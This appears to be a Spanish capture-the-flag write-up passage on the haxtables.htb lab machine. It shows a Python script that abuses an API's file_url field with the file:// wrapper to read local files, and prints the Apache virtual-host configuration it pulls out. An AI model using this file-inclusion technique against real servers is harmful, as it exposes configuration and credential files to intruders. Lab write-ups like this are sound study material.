 ****

# www-data

La página nos permite convertir de string o int a algún formato.
Tienen un apartado de `api` para convertir estas cadenas por medio de `python` o `curl`. Ellos nos brindan un ejemplo con python.

Si en el campo `file_url` utilizamos el wrapper de `file://` conseguimos **LFI**.

```python
import requests, base64, json, sys

json_data = {
	'action': 'b64encode',
	'file_url' : f'file://{sys.argv[1]}'
}

response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
print(base64.b64decode(json.loads(response.text)["data"]).decode("utf-8"))
```

Con el siguiente script, podremos hacer uso del **LFI** de una forma más sencilla.

Sabemos que corre un `apache`, por lo que vamos a buscar su archivo de configuración.

```bash
python3 lfi.py /etc/apache2/sites-available/000-default.conf 
<VirtualHost *:80>
        ServerName haxtables.htb
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html


        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>


<VirtualHost *:80>
        ServerName api.haxtables.htb
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/api
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
        ServerName image.haxtables.htb
        ServerAdmin webmaster@localhost
        
        DocumentRoot /var/www/image

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
        #SecRuleEngine On

        <LocationMatch />
                SecAction initcol:ip=%{REMOTE_ADDR},pass,nolog,id:'200001'
                SecAction "phase:5,deprecatevar:ip.somepathcounter=1/1,pass,nolog,id:'200002'"
                SecRule IP:SOMEPATHCOUNTER "@gt 5" "phase:2,pause:300,deny,status:509,setenv:RATELIMITED,skip:1,nolog,id:'200003'"
                SecAction "phase:2,pass,setvar:ip.somepathcounter=+1,nolog,id:'200004'"
                Header always set Retry-After "10" env=RATELIMITED
```